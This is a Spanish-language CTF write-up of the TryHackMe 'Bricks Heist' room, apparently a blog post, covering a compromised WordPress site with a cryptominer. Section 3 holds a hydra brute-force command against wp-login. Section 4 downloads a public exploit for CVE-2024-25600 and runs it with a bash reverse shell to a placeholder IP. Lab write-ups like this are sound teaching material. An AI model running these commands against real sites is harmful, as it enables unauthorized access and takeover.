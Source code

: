 ```yaml
---
title: "asfasf"
platform: "HTB"
publishedAt: 2025-05-29
cover: "/images/ctf/nota5-cover.webp"
preview: "brtbtbrtbrt"
tags: []
link: "Sin link"
---
```


![image.png](/images/ctf/nota5-0.webp)


# 🧱 Bricks Heist – TryHackMe (Write-up)


[embed]()


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

